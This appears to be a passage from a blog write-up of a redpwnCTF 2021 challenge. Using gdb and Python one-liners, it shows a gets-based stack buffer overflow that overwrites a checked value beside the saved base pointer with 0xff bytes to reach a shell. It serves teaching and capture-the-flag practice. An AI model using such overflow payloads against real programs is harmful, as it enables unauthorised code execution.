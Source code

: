 The program checks if there's `0xffffffffffffffff` in memory `0x8` bytes before
the `$rbp` register. The program allocates 32 bytes of memory for our heartfelt
message, but it continues reading even if our heartfelt message is longer than
32 bytes. Let's see if we can overwrite that register >:)

Let's set a breakpoint after the `<gets@plt>` call in gdb, and run the program
with 40 bytes of `0x61` ('a')

```
(gdb) break *0x00000000004012a5
Breakpoint 1 at 0x4012a5

(gdb) run < <(python3 -c "print('a' * 40)")
```

I'm using the `run` command with `<` and `<()` to pipe the output of python
into the program's `stdin`. It's unnecessary at this stage because there's an
'a' key on my keyboard, but if we were to send raw bytes, this would make it a
lot easier.

I'm also using [gef](https://github.com/hugsy/gef) so I get access to a command
called `context` which prints all sorts of information about registers, the
stack and a small disassembly window. I won't show it's output here, but it
was an indispensable tool that you should install nonetheless.

Let's print the memory at `[$rbp - 0x8]`:

```
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x0000000000000000 0x0000000000000000
0x7fffffffd768:  0x00007ffff7de4b25 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
```

Hmmm, no overwriteage yet. Let's try 56 bytes instead:

```
(gdb) run < <(python3 -c "print('a' * 56)")
(gdb) x/8gx $rbp - 0x8
0x7fffffffd758:  0x6161616161616161 0x6161616161616161
0x7fffffffd768:  0x00007ffff7de4b00 0x00007fffffffd858
0x7fffffffd778:  0x0000000100000064 0x00000000004011f6
0x7fffffffd788:  0x0000000000001000 0x00000000004012c0
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0x6161616161616161
```

Jackpot! We've overwritten 16 bytes of the address that the `cmp` instruction
reads. Let's try setting it to `0xff` instead, so we get a shell. Python 3 is
not that great for binary exploitation, so the code for this is a little bit
ugly, but if it works, it works!

```
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'a' * 40 + b'\xff' * 8)")
(gdb) x/1gx $rbp - 0x8
0x7fffffffd758: 0xffffffffffffffff
```


[meta]: <title> (redpwnCTF 2021)
[meta]: <subtitle> (A noob's perspective)
[meta]: <author> (Loek, Willem)
[meta]: <date> (July 13 2021)
[meta]: <tags> (hacking, CTF, writeup)
[meta]: <cover> (/img/redpwn2021.png)
